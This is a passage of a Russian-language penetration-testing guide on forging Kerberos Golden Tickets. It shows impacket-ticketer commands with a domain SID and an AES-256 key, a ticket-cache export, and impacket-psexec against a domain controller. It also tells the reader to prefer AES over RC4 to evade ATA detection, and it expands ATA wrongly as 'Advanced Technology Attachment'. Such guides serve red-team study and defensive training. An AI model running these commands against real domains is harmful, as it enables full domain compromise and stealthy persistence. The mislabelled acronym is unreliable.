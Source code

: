 **Примечание: важным моментом является очистить кэшированные в сессии билеты. В противном случае, выпущенный билет не будет работать!**

  

Также стоит отметить момент использования флага **/newpac** при выпуске билета с помощью Rubeus. Всё дело в обновлении [KB5008380](https://support.microsoft.com/en-gb/topic/kb5008380-authentication-updates-cve-2021-42287-9dafac11-e0d0-4cb8-959a-143bd0201041). Усовершенствованный процесс аутентификации добавляет новую информацию о том, кто запросил билет в Privilege Attribute Certificate (PAC), которая записывается в TGT. Если выпускать билет по старому формату, то он попросту не будет работать.

## Удаленный выпуск билета

Для начала, выпустим билет на своей локальной машине:

`impacket-ticketer -domain-sid S-1-5-21-3271603407-350436319-1246551825 -domain test.local goldenticket_user -aes bbe9b2be44a69f8492d4bc9276989c7d623bb04a5da893298a8ba770087ba065`

И сразу заэкспортим билет в переменную окружения:

`export KRB5CCNAME=goldenticket_user.ccache`

![](../../../Attachments/image_10_2.png)

Как видно, здесь используется не **RC4** (**NT**) хэш, а **AES-256**. Это поможет скрыть обнаружение **ATA** (Advanced Technology Attachment).

После этого, мы можем проверить корректность с помощью **PSEXEC**:

`impacket-psexec “test.local/goldenticket_user@dc_test.test.local” -k -no-pass`

![](../../../Attachments/image_11_2.png)
